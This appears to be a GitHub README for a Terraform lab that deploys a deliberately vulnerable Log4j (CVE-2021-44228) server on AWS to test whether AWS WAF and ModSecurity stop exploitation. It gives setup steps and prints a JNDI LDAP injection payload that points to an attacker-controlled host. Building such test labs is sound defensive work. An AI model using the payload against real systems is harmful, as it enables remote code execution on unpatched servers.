 # Readme

## Project Description
This project files demostrate a proof-of-concept of log4j vulnerability (CVE-2021-44228) on AWS using Terraform Infrastructure-as-a-code means.

There are 2 demo in this project:  
1. single-instance contains a vulnerable server, you can use your personal computer to exploit the server, the server should be protected with AWS WAF.
2. double-instance contans 2 services, the vulnerable server can only be access from the reverse proxy server, the reverse proxy should be protected by ModSecurity.

Conclusion:
The 1st demo demostrate a successful exploit using AWS WAF. The 2nd demo was an unsuccessful attempt when ModSecurity is in placed. Removing ModSecurity the exploit will be successful. It may be because ModSecurity is an active project therefore the vulnerable strings has been identified and filtered.


# Credit
This poc was from :
https://github.com/kozmer/log4j-shell-poc  

This medium blog explain how her attempt walkthrough : 
https://chennylmf.medium.com/apache-log4j-shell-poc-exploits-5953c42fa873  

# My testing  

Personally, I tested using Windows + Powershell, cloud machine is Ubuntu 18 LTS. (Exploitation with kali or any linux)
  
# Pre-requisite

1. Installed AWS_CLI  
2. Installed Terraform CLI   
3. Have Access key ready

## RSA KEY

Create via web (Name it 'tf-aws'): https://console.aws.amazon.com/ec2/v2/home?#KeyPairs


## Get Access key
https://us-east-1.console.aws.amazon.com/iamv2/home#/users > Select user > Select section security_credentials

## Set Access key in shell

Powershell:  
`$env:AWS_ACCESS_KEY_ID="<user access key input>"`  
`$env:AWS_SECRET_ACCESS_KEY="<secret key input>"`  
`$env:AWS_DEFAULT_REGION="<region>"`  

  
Linux:  
`export AWS_ACCESS_KEY_ID="<user access key input>"`  
`export AWS_SECRET_ACCESS_KEY="<secret key input>`  
`export AWS_DEFAULT_REGION="<region>"`

# Usage
## Setup EC2 in AWS platform
 `cd single-instance`  
 `terraform init`    
 `terraform apply`   

 After running, an IP / DNS will be listed.

For single-instance, ensure `http:<aws host url>:8080` is accessible  

For double-instance, ensure `http:<aws host url>` is accessible  

\* please note that spining up 'double-instance' takes a lot more time, can use `journalctl -f` after ssh into the system to track progress
  
If you do follow journal, "Reached target Cloud-init target." means its ready state.  
![exploit](./images/ready_state_double-instance-journal.png) 

## Prepare Remote / Localhost client (attacker):
Set execute permission
`chmod +x ../exploit-script-remote.sh`    

Run script with supplied variable   
`../exploit-script-remote.sh <desktop | cloud>`  
where desktop means your workdir is at Desktop and cloud means your workdir at ~.

Note the payload is displayed end of script similar to `${jndi:ldap://<ip-address>:1389/a}`

## Vulnerable Server:  
Visit `http:<aws host url>:8080`

Copy the payload into the 'username' field then submit forms  

![exploit](./images/attempt-exploit.png) 


## Remark 
JDK file: have ensure the integrity from baidu source is same hash from Oracle  
SHA256          187EDA2235F812DDB35C352B5F9AA6C5B184D611C2C9D0393AFB8031D8198974

## References
Instance:
https://registry.terraform.io/providers/hashicorp/aws/latest/docs/resources/instance


Spot instance:
https://www.tderflinger.com/en/ec2-spot-with-terraform


SSH:
https://jhooq.com/terraform-ssh-into-aws-ec2/
https://docs.aws.amazon.com/cli/latest/userguide/cli-services-ec2-keypairs.html


[ssh key on the fly]
https://stackoverflow.com/questions/49743220/how-do-i-create-an-ssh-key-in-terraform


Waf:
https://registry.terraform.io/providers/hashicorp/aws/latest/docs/resources/waf_rule
https://medium.com/kudos-engineering/terraforming-amazons-web-application-firewall-e5c22b7d317d
https://www.linode.com/docs/guides/securing-nginx-with-modsecurity/


Templating:
https://spacelift.io/blog/terraform-templates

AWS AZ ID:
https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/using-regions-availability-zones.html#concepts-availability-zones 

# Things learnt

* (lots of time spent) dont use provision as bash script / use template instead (could better see if could downgrade privilege)
* The RSA key generated from web is more reliable than manually generated from aws-cli if using .pem (the compatibility .pem file to SSH client or AWS server) otherwise use normal rsa key without pem.
* managed to use spot instance instead of normal for some cost saving
* Docker exposing port may overwrite firewall rules
* (lots of time spent) Setting up and Troublehouting networking take lots of time - Route, vpc need 1 sec-group and ec2 host need another sec-group - and both sec-group need to point to vpc


# # Time keeping
* Start 06 Jun 11AM UTC+0800 - 07 Jun 4AM (Completed poc+tf+aws -waf) - 17 hours
* Start 07 Jun 1PM UTC+0800 - 08 Jun 5AM (Completed 2nd case where a reverse proxy is used)





